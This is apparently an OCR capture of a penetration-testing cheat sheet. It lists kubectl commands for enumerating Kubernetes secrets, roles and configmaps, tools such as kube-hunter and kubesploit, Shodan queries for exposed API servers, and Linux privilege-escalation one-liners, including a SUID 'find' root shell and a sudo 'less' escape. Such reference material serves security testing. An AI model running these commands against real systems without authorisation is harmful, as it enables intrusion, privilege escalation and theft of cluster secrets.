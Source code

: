     :- List services in a namespace
    kubectl get services -n <namespace>
    
    :- List secrets (check permissions!)
    kubectl get secrets -n <namespace>
    
    :- List RBAC roles and bindings
    kubectl get roles,rolebindings -n <namespace>
    
    :- List configmaps (may contain config/sensitive data)
    kubectl get configmaps -n <namespace>
    
    :- Check current user's permissions in a namespace
    kubectl auth can-i --list --namespace=<namespace>
    
    :- Get detailed info about a pod (env vars, volumes)
    kubectl describe pod <pod_name> -n <namespace>
    
    :- View logs for a pod
    kubectl logs <pod_name> -n <namespace>

### Kubernetes Attack Tools    
    :- Tool for auditing K8s clusters (various checks)
    cd_k8s_audit
    
    :- Scan K8s cluster for security issues (from outside)
    kube-hunter --remote <node_ip_or_dns>
    
    :- Run kube-hunter from within a pod
    kube-hunter --pod
    kubesploit (Metasploit-like framework for K8s)

### Finding Exposed K8s API Servers (via Shodan/Censys etc.)    
    Search for: "product:kubernetes" "port:443" "ssl:kube-apiserver"
    Search for: "port:10250" "kubelet" (Kubelet read-only port)

## PRIVILEGE ESCALATION (Linux/Windows Details)

### Linux Privilege Escalation (GTFOBins usage examples)
    :- Find SUID binaries:    find / -perm -u=s -type f 2>/dev/null

### Check GTFOBins for exploitation (Assume 'find' binary has SUID)    
    https://gtfobins.github.io/gtfobins/find/
    
    :- Exploit SUID find for root shell
    find . -exec /bin/sh -p \; -quit

### Check sudo permissions:    sudo -l

### Exploit sudo permission (Assume user can run 'less' as root)    
    https://gtfobins.github.io/gtfobins/less/
    sudo less /etc/profile
